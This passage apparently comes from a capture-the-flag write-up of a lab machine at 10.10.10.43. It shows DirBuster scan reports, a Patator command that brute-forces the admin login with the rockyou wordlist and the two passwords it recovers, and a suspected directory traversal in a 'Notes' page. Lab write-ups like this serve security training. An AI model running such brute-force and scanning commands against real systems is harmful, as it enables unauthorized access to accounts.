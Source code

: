      — — — — — — — — — — — — — — — —
    Files found during testing:
    Files found with a 200 responce:
    /info.php
    /department/login.php
    /department/index.php
    /department/header.php
    /department/footer.php
    /department/css/index.php
    /department/files/index.php
    Files found with a 302 responce:
    /department/logout.php
    /department/manage.php
    — — — — — — — — — — — — — — — —
![](https://cdn-images-1.medium.com/max/1000/1*Nucuh2lhuHNoIc8rYlzClQ.png)


I brute forced the login page with the username admin and got two possible passwords `1q2w3e4r5t` and `computador`

    patator http_fuzz url=”http://10.10.10.43/department/login.php" method=POST body=’username=admin&password=FILE0' 0=rockyou.txt follow=1 accept_cookie=1 -x ignore:fgrep=’Invalid Password!’ -x quit:fgrep=’Hi admin’
    12:33:56 patator INFO — Starting Patator v0.6 (http://code.google.com/p/patator/) at 2017–10–19 12:33 EDT
    12:33:58 patator INFO —
    12:33:58 patator INFO — code size:clen time | candidate | num | mesg
    12:33:58 patator INFO — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — -
    12:35:15 patator INFO — 200 3332:1058 0.263 | 1q2w3e4r5t | 4553 | HTTP/1.1 200 OK
    12:35:15 patator INFO — 200 1623:1058 0.259 | computador | 4563 | HTTP/1.1 200 OK
    12:35:15 patator INFO — Hits/Done/Skip/Fail/Size: 2/4600/0/0/14344392, Avg: 59 r/s, Time: 0h 1m 17s
    12:35:15 patator INFO — To resume execution, pass — resume 458,456,457,462,458,464,453,460,466,466
![](https://cdn-images-1.medium.com/max/800/1*jt9IfXmjiB3vl-1dZe0BJw.png)


Once we log in we can see that we have access to “Notes”

![](https://cdn-images-1.medium.com/max/800/1*ZMaJImmJb9p83Y-MEh2XJA.png)


Notes is displaying the content of some file stored somewhere in the system named ninevehNotes.txt and seems to be vulnerable to directory traversal attack…
These are the files we find on port 443


    DirBuster 1.0-RC1 — Report
    http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
    Report produced on Thu Oct 19 12:26:15 EDT 2017
     — — — — — — — — — — — — — — — —
    https://10.10.10.43:443
     — — — — — — — — — — — — — — — —
    Directories found during testing:
    Dirs found with a 200 response:
    /
    /db/
    Dirs found with a 403 response:
    /icons/
    /icons/small/
     — — — — — — — — — — — — — — — —
    Files found during testing:
    Files found with a 200 responce:
    /db/index.php
     — — — — — — — — — — — — — — — —
![](https://cdn-images-1.medium.com/max/1000/1*rVB_EpP_aOFJ2yXeYPgaZw.png)
